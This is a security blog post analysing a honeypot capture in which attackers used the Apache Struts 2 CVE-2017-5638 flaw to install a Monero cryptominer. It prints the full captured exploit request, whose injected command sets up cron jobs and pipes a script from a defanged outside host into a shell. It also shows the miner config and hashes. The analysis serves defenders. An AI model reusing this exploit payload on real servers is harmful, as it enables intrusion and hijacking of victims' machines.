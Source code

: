 ```yaml
---
title: From Apache Struts to Cryptominer.
description: Hackers attacking web servers, running Java, with Apache Struts 2 exploits to install cryptominers on Linux/Windows powered machines.
layout: post
permalink: from-apache-struts-to-cryptominer
image: "img/apache_struts_cryptominer.png"
---
```

Remember Equifax hack and data of millions being stolen? Then you should also remember the Apache Struts 2 vulnerability, used during that attack. This sounds like an old news, but it seems to be exploited even to the day of this post. Someone is attacking web servers successfully and installs cryptominers, adding victims to a Monero pool.

## Stage 1. Apache Struts 2 vulnerability (CVE-2017-5638).

For those who doesn't know (or need a refresher) what is `CVE-2017-5638`; this is a vulnerability found in Apache Struts leading to RCE (remote code execution). Attacker has to send a crafted request to upload a file to the vulnerable server, injecting malicious code in the `Content-Type` header. 

For more details, check [this nice article from TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-5638-apache-struts-vulnerability-remote-code-execution/ "Apache Struts 2").

In my case, one of the honeypots mimicking Apache Tomcat got an interesting HTTP request (see below).

```python
GET /images/upload HTTP/1.1
Host: <REDACTED>
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
X-Forwarded-For: 5.188.10[.]251
```

As you already noticed, the stage 1 of this attack is following next steps:

- Checks what type of OS is running on exploited server (Linux or Windows);
    - _Looks like, attackers are trying their against Windows boxes, in case Linux tools are installed_;
- Creates 2 cronjobs, which are running every 19th and 20th minutes;
    - _This is malware's persistence mechanism;_
    - _Every time it downloads `logo.jpg` file and executes it as shell script;_
    - _I think attackers messed up here and instead of using 2 different IPs, in case one goes down, used same one (5.188.87[.]12) everywhere;_
- Downloads `logo.jpg` file using `wget` command and executes the file;



## Stage 2. The pseudo-JPG file.

Stage 2 of this attack is execution of `logo.jpg` as a shell script. It is meant to look for other cryptominers running on the system and terminating those processes (_removing old versions or eliminating competitors?_).

![Stage 2. Terminating processes](../img/miner_shell_script_1.png){:.post_image}

Once other miners have been stopped, there is kind of a MUTEX check implemented. Malware checks if none of specified files are used by any process on the system; then downloads Monero miner and it's configuration file `kworker.conf`.

![Stage 2. MUTEX checks. Monero Miner download](../img/miner_shell_script_2.png){:.post_image}

There are 2 available versions of cryptominer and on of them is dropped if `AES-NI` instructions set is not supported by the processor:

```bash
cat /proc/cpuinfo|grep aes>/dev/null
```

## Stage 3. Cryptominer

As mentioned above, malicious shell script drops one of the two available versions of `cpuminer 2.3.3`, one for `AES-NI` able processors and for those without support. The version and build time can be found by running `strings` tool against the binaries.

![Stage 3. cpuminer 2.3.3](../img/cpuminer_strings.png){:.post_image}

Below are the checksums of the binaries, which were already uploaded on VirusTotal, long time before the attack.

```bash
MD5:    c7500149e5ae8f34ffd482057023ab41  atd_1
MD5:    54b0f140da40e5713377f4d4a8f143ad  atd_2
SHA256: 9359f7e7b1dd0f4ce4a2c52fe611c981a3dd7a17f935862e3ce9acb5f2df8ced  atd_1
SHA256: f4864b3793c93de50b953e9751dc22e03fa0333ae6856d8d153be9018da6d911  atd_2
```

Configuration file is saved in `wcubpiztlk.conf` and contains information like pool address, user name and the algorithm used.

```json
{
    "url" : "stratum+tcp://158.69.25[.]77:80",
    "user" : "49mQCzecsC6TS1sNBj5XQX4dNG8MESvLGLPHYJLKohVCQivAB5jJw2xHokTpjtSfE3D8m2U3JjDGEWJMYLrN216CM3dRpBt",
    "pass" : "x",
    "algo" : "cryptonight",
    "quiet" : true
}
```

## Thoughts. Conclusion.

Based on available information on the Internet, 158.69.25[.]77 points to `ca[.]minexmr[.]com`. This particular server is situated in Canada. Knowing that reporting server should be as close to the miners (_in our case victims_), I assume that the majority of targets are planned to be in US and Canada, because using an European server for a victim based in US could increase the _loses_ (a.k.a expired shares).

![MineXMR Servers](../img/miner_servers.png){:.post_image}

Even if CVE-2017-5638 was fixed relatively fast, attackers had success exploiting this for another year or so. This earned them 314.485 XMR (~ $15.286) *at least*.

![Miners Profit](../img/miner_profit.png){:.post_image}

As a conclusion, I would say PATCH! PATCH! and PATCH! This is the easiest and *cheapest* way to stay mitigate a a big part of security risks.
